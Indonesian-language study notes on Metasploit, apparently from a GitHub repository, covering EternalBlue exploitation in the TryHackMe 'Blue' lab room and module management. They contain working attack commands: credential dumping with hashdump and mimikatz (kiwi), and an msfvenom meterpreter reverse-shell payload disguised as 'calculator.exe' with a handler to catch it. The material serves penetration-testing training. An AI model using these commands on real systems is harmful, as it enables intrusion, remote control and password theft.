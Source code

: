 # Memakai Metasploit 2
## Rehearsal: Eternalblue
- Eksploitasi ini memanfaatkan vulnerability pada Microsoft SMBv1 (CVE-2017-0143 - CVE-2017-0148). Integer overflow > buffer overflow > heap spraying. Info di [sini](https://www.sentinelone.com/blog/eternalblue-nsa-developed-exploit-just-wont-die/)
- Eksploit yang didevelop oleh NSA dan pada April 2017 eksploit ini disebar ke publik oleh ShadowBroker
- Eksploit yang dimanfaatkan oleh ransomware: WannaCry, Petya dan NotPetya.

Kali ini kita akan gunakan room blue untuk mengoperasikan EternalBlue
https://tryhackme.com/room/blue
> Notes: Eksploit ini sangat rentan terhadap delay, apabila gagal mengeksploitasi, gunakan attackbox dari TryHackMe

```sh
sudo msfconsole

# cari module yang sesuai
search eternalblue
use <ID>

set RHOST <IP_TARGET>
set LHOST <IP_KAMU>
```

Melihat informasi eksploit dengan lebih detail
```sh
info

show advanced

show evasion
```

Post exploitation
```sh
# dapatkan hash password dari target
hashdump

# kiwi/mimikatz
load kiwi
creds_all
```

## msfvenom
Digunakan untuk generate file payload
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=eth0 LPORT=4444 -f exe > calculator.exe
```

Jalankan multi handler untuk menangkap koneksi
```sh
sudo msfconsole

search multi/handler
use <ID>

set payload windows/meterpreter/reverse_tcp

set lhost eth0

set lport 4444
```

Delivery payload ke target dan cobalah eksekusi file.exe di dalam komputer target.\

## Modul
- Modul metasploit bawaan kali linux kurang terupdate. 
- Lokasi download modul
	- https://www.rapid7.com/db/
	- https://www.exploit-db.com/
	- https://github.com/rapid7/metasploit-framework/blob/master//modules/auxiliary/scanner/http/wp_registrationmagic_sqli.rb 
  
Apabila menambahkan modul, kamu perlu restart Metasploit, atau reload_all
```sh
# primer
/usr/share/metasploit-framework/modules/

# sekunder (untuk menyimpan custom module)
~/.msf4/modules/
```

Menggunakan modul, sekali sesi
```sh
# teknik 1:
msfconsole -m /lokasi/folder/modul

# teknik 2:
msfconsole
loadpath /lokasi/folder/modul

```

Perlu diperhatikan bahwa directory tree dari modul eksploit baru harus sesuai dengan pembagian folder modul, jadi eksploit baru harus ditempatkan di folder bernama exploit, auxillary, post, atau lainnya.

